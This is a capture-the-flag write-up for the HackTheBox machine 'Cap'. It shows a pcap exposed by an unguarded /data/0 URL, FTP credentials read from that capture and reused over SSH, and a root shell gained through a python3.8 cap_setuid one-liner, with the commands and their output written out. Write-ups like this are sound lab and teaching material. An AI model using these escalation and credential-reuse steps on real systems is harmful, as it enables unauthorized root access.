



# Cap - HackTheBox writeup

## First steps

```
$> nmap 10.10.10.245
```
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

```
$> ftp 10.10.10.245
```

We try to authenticate as anonymous with no password but we get **"530 Login incorrect"**. So it appears that the anonymous authentication is not activated on this server. We will, then, need some credentials.

We will now try to analyze the website hosted on port 80, to see if we find something useful.

## Port 80: Security pannel

When we first arrive on the landing page it seems that this website is an admin pannel for the server security.


There is especially one interesting tab that allow us to download a security snapshot as a **.pcap file**. It could be interesting considering that such type of files contains data about packets sent/received in a network.

But, for now the snapshot that I have is completely empty.



The subdirectory of the snapshot page is **/data/1**. When trying other subdirectories like **/data/2** or **/data/3** I had other snapshots but all of them are empty like the first one.

But when I tried **/data/0**... Bingo !



We now have a snapshot containing some data that we can analyze.

## The crucial .pcap snapshot

To get useful data from the snapshot we found earlier we will use Wireshark.

Wireshark is a network analyzing tool that can scan every packets that is sent/received by a machine and give to the user a handy interface to see what is happening in those network exchanges.

With Wireshark we can launch a capture to scan every network exchanges on our machine or we can import a .pcap file to see the informations that it contains. So I think I don't need to explain what we are going to do right now... Let's import this suspicious snapshot that we've downloaded earlier !



After importing the snapshot we have a lot of request/responses that are detailed on our screen.

However, if we look at the requests done with the FTP protocol, we will see something crucial that is leaked in those network exchanges:


The snapshot captured a user `nathan` that authenticated to the ftp server of the machine with it's password `Buck3tH4TF0RM3!`.

This are ftp credentials but, just like in real life, nathan could be a person that uses the same password for everything... So why not trying to login as nathan on the ssh server !

```bash
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: Buck3tH4TF0RM3!

nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

> The user.txt can be found in /home/nathan/

## A binary with unusual capabilities

Now that we are user on the machine we have to find a way to get administrator privilege.

We can try some usual escalation tricks like checking our sudo permissions, finding binaries with SUID permissions or checking sudo version to see if it's exploitable but this will give us nothing interesting.

Another thing that we can check for privilege escalation are the binaries with **capabilities**. It can be done using the following command:

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

And here there is something very unusual which is python3.8 with the cap_setuid wich allow the binary to change it's uid at runtime.

This is a critical vulnerability considering that in this context any python program can set it's UID to 0 (root) !

We can use the payload given on [GTFObins](https://gtfobins.github.io/gtfobins/python/) to get a root shell:

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

> The root.txt can be found in /root/
